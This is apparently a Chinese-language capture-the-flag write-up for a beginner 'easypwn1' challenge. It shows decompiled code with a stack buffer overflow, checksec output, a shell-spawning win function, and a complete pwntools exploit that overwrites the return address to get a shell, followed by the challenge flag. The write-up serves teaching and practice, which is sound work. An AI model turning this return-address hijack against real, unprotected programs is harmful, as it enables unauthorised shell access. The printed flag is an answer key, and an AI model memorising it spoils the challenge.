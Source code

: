 # easypwn1
```
nc seclabs.cn 5116

急需pwn哥哥，白给分数了，现在开始学也能做得出来的，加油
```
[pwn1](attachment/pwn1)
## WriteUp

IDA打开然后反编译我们可以很直接的看到这个存在溢出
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf; // [rsp+0h] [rbp-20h]

  setbuf(stdin, 0LL);
  setbuf(stdout, 0LL);
  puts("no pwn no life!");
  printf("input:", 0LL);
  return read(0, &buf, 0x100uLL); // buf[0x20]
}
```
checksec一下的话可以发现啥防护都没开
```bash
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX disabled
PIE:      No PIE (0x400000)
RWX:      Has RWX segments
```
然后还有一个eval函数可以getshell
```c
void eval()
{
  system("/bin/sh");
}
```
然后思路就很简单了，通过栈溢出劫持程序执行流把return地址改成eval函数去执行`system("/bin/sh");`来getshell拿flag，由于这个程序是64位的，所以rbp大小是8byte，然后才是我们要劫持的rsp指针，所以我们填满buf空间(0x20)后还要多填充8byte再加上eval地址才能覆盖rsp从而劫持程序去执行eval函数


### EXP
```python
from pwn import*
context(os='linux',arch='amd64',log_level='debug')
n = process('./pwn1')
#n = remote('seclabs.cn',5115)
eval_addr = 0x4006b6
payload='a'*0x28+p64(eval_addr)
n.recvuntil(':')
n.sendline(payload)
n.interactive()
```


## flag

`flag{a652b988-f1b0-11e9-81d4-000c29ad2ad8}`

